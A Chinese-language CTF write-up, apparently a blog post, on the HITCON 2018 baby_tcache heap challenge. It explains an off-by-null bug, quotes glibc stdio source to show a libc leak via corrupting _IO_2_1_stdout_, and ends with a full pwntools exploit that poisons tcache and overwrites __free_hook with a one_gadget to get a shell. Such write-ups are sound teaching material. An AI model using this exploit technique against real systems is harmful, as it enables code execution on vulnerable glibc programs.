





前段时间在学习tcache attack，先不介绍tcache是个啥，也不介绍什么保护机制什么乱七八糟的，因为👴是懒🐕，所以先咕咕咕了，这些东西后续找时间补上
这篇就讲一个题，HITCON2018_baby_tcache，这个题算是很经典的
首先分析程序，保护全开 got不可写，没有show函数
[*] '/home/imlyp/桌面/HITCON2018_babytcache/baby_tcache'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
FORTIFY: Enabled
free后置零，不存在double free

并且存在off by null漏洞

但是程序中没有show函数，所以很难leak libc，但是我们可以利用_IO_2_1_stdout，我们修改他的结构体中的值，就可以达到打印libc地址的目的
👴回来写🌶
程序中存在puts函数，而puts函数会调用_IO_puts，然后会调用_IO_new_file_overflow ，然后会调用_IO_do_write（禁止套娃），在_IO_do_write中可以泄露出_IO_write_base ~ _IO_write_ptr这段缓冲区中的数据，并且这段缓冲区和libc_base偏移固定
贴上源码，调用puts函数时
IO_puts源码
int
_IO_puts (const char *str)
{
int result = EOF;
_IO_size_t len = strlen (str);
_IO_acquire_lock (_IO_stdout);
if ((_IO_vtable_offset (_IO_stdout) != 0
|| _IO_fwide (_IO_stdout, -1) == -1)
&& _IO_sputn (_IO_stdout, str, len) == len
&& _IO_putc_unlocked ('\n', _IO_stdout) != EOF)
result = MIN (INT_MAX, len + 1);
_IO_release_lock (_IO_stdout);
return result;
}int
_IO_new_file_overflow (_IO_FILE *f, int ch)
{
if (f->_flags & _IO_NO_WRITES)
{
f->_flags |= _IO_ERR_SEEN;
__set_errno (EBADF);
return EOF;
}
/* If currently reading or no buffer allocated. */
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
{
:
:
}
if (ch == EOF)
return _IO_do_write (f, f->_IO_write_base,f->_IO_write_ptr - f->_IO_write_base);// 需要调用的目标，如果使得 _IO_write_base < _IO_write_ptr，且 _IO_write_base 处存在有价值的地址 （libc 地址）则可进行泄露
// 在正常情况下，_IO_write_base == _IO_write_ptr 且位于 libc 中，所以可进行部分写上面的源码可知，当_IO_read_end与_IO_write_base不想等的时候就会打印者之间的字符，其中就有可能会有我们需要的leak，我们再接着看一下函数_IO_do_write,这个函数实际调用的时候会用到new_do_write函数
atic
_IO_size_t
new_do_write (_IO_FILE *fp, const char *data, _IO_size_t to_do)
{
_IO_size_t count;
if (fp->_flags & _IO_IS_APPENDING) /* 需要满足 */
/* On a system without a proper O_APPEND implementation,
you would need to sys_seek(0, SEEK_END) here, but is
not needed nor desirable for Unix- or Posix-like systems.
Instead, just indicate that offset (before and after) is
unpredictable. */
fp->_offset = _IO_pos_BAD;
else if (fp->_IO_read_end != fp->_IO_write_base)
{
_IO_off64_t new_pos = _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
if (new_pos == _IO_pos_BAD)
return 0;
fp->_offset = new_pos;
}
count = _IO_SYSWRITE (fp, data, to_do); // 这里真正进行 write我们需要程序执行 _IO_SYSWRITE函数，_IO_SYSWRITE(fp, data, to_do)就是函数write(fp->fileno, data, to_do)的原型，因此如果我们能修改相应的参数，使程序运行到这里，那么久会输出 f->_IO_write_base中的数据，而这些数据里面，就会存在固定的libc中的地址
需要满足fp->_flags & _IO_IS_APPENDING != 0 或 fp->_IO_read_end != fp->_IO_write_base，我们没办法同时控制_IO_write_base和_IO_read_end，所以我们只要fp->_flags & _IO_IS_APPENDING == 1就行了
综上所述，我们需要满足条件：
_flags = 0xfbad0000 // 这个0xfbad是magic number，不用管它
_flags & = ~_IO_NO_WRITES // _flags = 0xfbad0000
_flags | = _IO_CURRENTLY_PUTTING // _flags = 0xfbad0800
_flags | = _IO_IS_APPENDING // _flags = 0xfbad1800我们看看IO_FILE的一些flags
#_IO_FILE flags
/* 0x4000 No longer used, reserved for compat. */
_flags=_IO_MAGIC+_IO_CURRENTLY_PUTTING+_IO_IS_APPENDING+（_IO_LINKED）
_flags=0xfbad1800 or 0xfbad1880 或者再加一些其他不影响leak的_flags我们在gdb中看一下IO_2_1_stdout结构体

只要把flags改成0xfbad1800就能满足条件，后面三个全部改成0，使其没有差值，就不会触发read的操作
整体思路：
①add 7个chunk，最后一个chunk是防止与top chunk合并的
②free掉chunk4并重新申请回来，通过prev_size的复用，将chunk5的prev_size修改为0x660，再依次free掉2、0、5，可以构造chunk overlap
③free掉的chunk2进入了tcache，然后通过off by null并触发unlink，再申请一个0+1的size之后，unsorted bin起始位置会在chunk2上，再申请一块chunk，就会从unsorted bin中切出来，并且fd指向main_arena+96
④修改tcache中指向main_arena+96的低两字节，使其指向_IO_2_1_stdout
改之前是这样

修改之后变成这样

⑤再次申请两个该size的chunk，就会申请到_IO_2_1_stdout_，对其结构体进行修改，使其满足能leak libc的条件
⑥tcache attack打free_hook为one_gadget
（这里我尝试打malloc_hook为one_gadget没有成功，realloc调整栈帧也没有成功，打free_hook为system也没有成功，所以无奈之下选择了打free_hook为one_gadget，这些没有成功不知道是为什么）
exp
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
context.terminal = ['terminator','-x','sh','-c']
binary = './baby_tcache'
local = 1
if local == 1:
p=process(binary)
else:
p=remote("",)
elf=ELF(binary)
libc=ELF("libc.so.6")
def add(size,content):
p.recvuntil("choice: ")
p.sendline("1")
p.recvuntil("Size:")
p.sendline(str(size))
p.recvuntil("Data:")
p.send(content)
def free(index):
p.recvuntil("choice: ")
p.sendline("2")
p.recvuntil("Index:")
p.sendline(str(index))
def exp():
add(0x4f8,"a") # 0
add(0x30,"a") # 1
add(0x40,"a") # 2
add(0x50,"a") # 3
add(0x60,"a") # 4
add(0x4f8,"a") # 5
add(0x10,"a") # 6
free(4)
add(0x68,"a"*0x60+p16(0x660)) # 4
free(2)
free(0)
free(5)
add(0x530,"a")
free(4)
add(0xa0,"\x60\x07")
add(0x40,"a")
payload = p64(0xfbad1800) + p64(0)*3 + "\x00"
add(0x3f,payload)
addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
log.success("addr==>" + hex(addr))
libc_base = addr - 0x3ed8b0
log.success("libc_base==>" + hex(libc_base))
malloc_hook = libc_base + libc.sym['__malloc_hook']
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
realloc = libc_base + libc.sym['realloc']
one = libc_base + 0x4f322
log.success("malloc_hook==>" + hex(malloc_hook))
log.success("free_hook==>" + hex(free_hook))
log.success("system==>" + hex(system))
add(0x70,p64(free_hook))
add(0x60,"/bin/sh\x00")
add(0x60,p64(one))
free(5)
p.interactive()
exp()参考链接：
https://p1kk.github.io/2019/12/03/Tcache%20Attack%E5%AD%A6%E4%B9%A0/tcache/#%F0%9F%94%BAHITCON2018-baby-tcache
http://pollux.cc/2019/05/03/2018-hitcon-baby-tcache/
https://zszcr.github.io/2019/03/18/2019-3-18-tcache%E4%B8%8B%E7%9A%84%E5%87%A0%E9%81%93pwn%E9%A2%98/#hitcon2018-baby-tcache
http://dittozzz.top/2019/04/24/IO-FILE%E9%83%A8%E5%88%86%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/
https://xz.aliyun.com/t/6473#toc-3
https://www.jianshu.com/p/c6a585d46bc0